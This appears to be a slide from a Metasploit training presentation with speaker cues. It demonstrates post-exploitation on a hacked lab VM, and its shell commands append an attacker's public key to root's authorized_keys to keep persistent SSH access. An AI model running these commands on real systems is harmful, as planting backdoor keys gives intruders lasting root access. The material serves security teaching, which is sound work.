

# Metasploit - Targeted Against the Weak
Say
Demonstrate
Before we start moving things around, what kind of access do we have, here?
Since we're root, we need to move this key into root's .ssh directory
Move the file to where it's supposed to be!
Go there ourselves
See the file
All in the Hacked Shell 1:
$ whoami
$ mv /id_rsa.pub /root/.ssh/id_rsa.pub.lulz
$ cd /root/.ssh
$ ls -pla
$ cat id_rsa.pub.lulz
$ cat ./authorized_keys
$ cat id_rsa.pub.lulz >> ./authorized_keys
$ cat ./authorized_keys
$ rm id_rsa.pub.lulz
Right-click on the hacked VM, click Shell 1 -> Disconnect